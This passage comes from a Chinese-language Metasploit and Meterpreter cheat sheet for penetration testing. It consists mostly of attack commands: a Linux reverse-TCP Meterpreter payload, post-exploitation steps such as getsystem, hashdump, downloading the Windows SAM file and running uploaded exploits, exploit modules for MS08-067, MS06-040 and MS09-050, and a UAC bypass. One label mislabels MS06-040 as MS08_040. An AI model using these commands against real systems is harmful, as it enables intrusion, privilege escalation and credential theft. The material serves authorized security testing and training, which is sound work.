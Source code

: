### Linux 反向Meterpreter payload

| 命令                                        | 解释                          |
| ------------------------------------------- | ----------------------------- |
| `set payload linux/meterpreter/reverse_tcp` | Meterpreter Linux 反向Payload |

## Meterpreter速查表

有用的meterpreter 命令。

| 命令                                       | 解释                                                         |
| ------------------------------------------ | ------------------------------------------------------------ |
| `upload file c:\\windows`                  | Meterpreter上传文件到 Windows 目标                           |
| `download c:\\windows\\repair\\sam /tmp`   | Meterpreter 从 Windows 目标下载文件                          |
| `execute -f c:\\windows\temp\exploit.exe`  | Meterpreter 在目标机器上执行.exe文件——用来执行上传的exp很方便 |
| `execute -f cmd -c `                       | 创建新的cmd shell通道                                        |
| `ps`                                       | Meterpreter显示进程                                          |
| `shell`                                    | Meterpreter获取目标shell                                     |
| `getsystem`                                | Meterpreter尝试提权                                          |
| `hashdump`                                 | Meterpreter尝试导出目标机器上的哈希                          |
| `portfwd add –l 3389 –p 3389 –r target`    | Meterpreter端口转发                                          |
| `portfwd delete –l 3389 –p 3389 –r target` | Meterpreter删除端口转发                                      |

## 常用Metasploit 模块

最常用的metasploit 模块。

### 远程Windows Metasploit 模块(exploits)

| 命令                                                         | 解释                                                        |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `use exploit/windows/smb/ms08_067_netapi`                    | MS08_067 Windows 2k, XP, 2003 远程攻击                      |
| `use exploit/windows/dcerpc/ms06_040_netapi`                 | MS08_040 Windows NT, 2k, XP, 2003 远程攻击                  |
| `use exploit/windows/smb/ms09_050_smb2_negotiate_func_index` | MS09_050 Windows Vista SP1/SP2 和Server 2008 (x86) 远程攻击 |

### 本地Windows Metasploit 模块(exploits)

| 命令                                  | 解释                   |
| ------------------------------------- | ---------------------- |
| `use exploit/windows/local/bypassuac` | 绕过 Windows 7 上的UAC |

### 辅助Metasploit 模块
